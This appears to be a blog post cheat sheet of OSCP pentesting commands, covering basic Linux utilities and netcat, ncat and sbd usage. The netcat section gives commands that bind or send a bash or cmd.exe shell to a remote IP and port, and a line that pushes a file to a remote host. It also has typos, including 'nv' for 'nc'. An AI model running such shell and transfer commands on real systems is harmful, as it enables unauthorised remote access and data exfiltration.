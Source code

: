 ```yaml
---
layout: post
title:  "Pentesting Summary"
categories: "Windows Linux"
tags:  windows linux pentest 
author: Trelis
---
```


* content
{:toc}

A summary of all the commands and concepts needed to pass the OSCP exam.




# General commands
## Locate
Before using locate, you should update de database:
```
updatedb
```

Once de database has been built, we can use locate to find a file of which we know the name. The search will be fast due the database has an index of all the local files.
```
locate FILE.EXE
```

## Which
This command searches for a given name through all the folders that are defined in the enviroment variable $PATH:
```
which FILE
```

## Find
Find is able to recursively search any given path for various files. It is more aggressive than locate and which:
```
find / -name FILE
```

For example, if we want to find all files named test:
```
find / -name test*
```

## Netstat
It shows all the services running and listening on a port:
```
netstat -antp | grep SERVICE
```

## Systemctl
In order to start or stop a service, we can use the command systemctl:
```
systemctl start SERVICE
systemctl stop SERVICE
```

If we want to have the service starting automatically  at boot time, we can use the options enable or disable:
```
systemctl enable SERVICE
systemctl disable SERVICE
```

# Essential Tools
## Netcat
```
Connect
nc -nv IP PORT [-e /bin/bash or cmd.exe]

Listen
nc -nlvp PORT [-e /bin/bash or cmd.exe]

* -e redirects the input, output and error messages to the PORT rather than the default console. So it binds the shell to a local port. Anyone who connects to the port will find a command prompt.

Transfer file 
nc -nv IP PORT < FILE.TXT

Receive file
nv -nlvp PORT > FILE.TXT


## Ncat
It is a reimplementation of Netcat. It is the same but allows to create encrypted communications:
```
Connect
ncat -v IP PORT -ssl

Listen
ncat --exec cmd.exe --allow IP -vnl PORT --ssl
```

## sbd
sbd is a Netcat-clone, designed to be portable and offer strong encryption:
```
Connect
sbd IP PORT

Listen
sbd -l -p PORT -e [bash/cmd.exe] -v -n
```




